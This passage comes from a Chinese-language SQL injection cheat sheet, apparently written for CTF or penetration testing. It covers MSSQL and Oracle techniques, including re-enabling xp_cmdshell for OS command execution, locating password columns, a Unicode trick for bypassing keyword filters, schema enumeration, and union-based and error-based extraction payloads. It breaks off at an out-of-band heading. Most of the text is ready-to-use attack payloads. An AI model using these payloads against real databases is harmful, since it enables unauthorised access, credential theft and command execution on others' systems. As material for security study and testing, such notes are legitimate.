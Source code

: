 - 判斷是否站庫分離
  - 客戶端主機名：`select host_name();`
  - 服務端主機名：`select @@servername; `
  - 兩者不同即站庫分離

- xp_cmdshell
  - 在MSSQL 2000默認開啟
  - MSSQL 2005之後默認關閉
  - 有sa權限，可透過sp_configure重啟它

  ```
  EXEC sp_configure 'show advanced options',1
  RECONFIGURE
  EXEC sp_configure 'xp_cmdshell',1
  RECONFIGURE
  ```
  - 關閉xp_cmdshell

  ```
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  EXEC sp_configure'xp_cmdshell', 0;
  RECONFIGURE;
  ```

- 快速查找帶關鍵字的表
  - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`

- Unicode繞過
  - IIS 對 Unicode 編碼是可以解析的，即 s%u0065lect 會被解析為 select

## Oracle

- `SELECT`語句必須包含`FROM`
  - 用`dual`表
- 子字串：
  - `SUBSTR("abc", 1, 1) => 'a'`
- 空白字元
  - `00 0A 0D 0C 09 20`
- IF語句
  - `IF condition THEN true-part [ELSE false-part] END IF`
- 註解：
  - `--`
- 其它
  - `SYS.DATABASE_NAME`
    - current database
  - `USER`
    - current user
  - `SELECT banner FROM v$version where rownum=1`
    - database version
- 庫名
  - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
  - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column
  - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
  - Column型態必須相同
  - 可用`NULL`來避免
  - `UNION SELECT 1, 'aa', null FROM dual`
- Error Based
  - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
- Out of band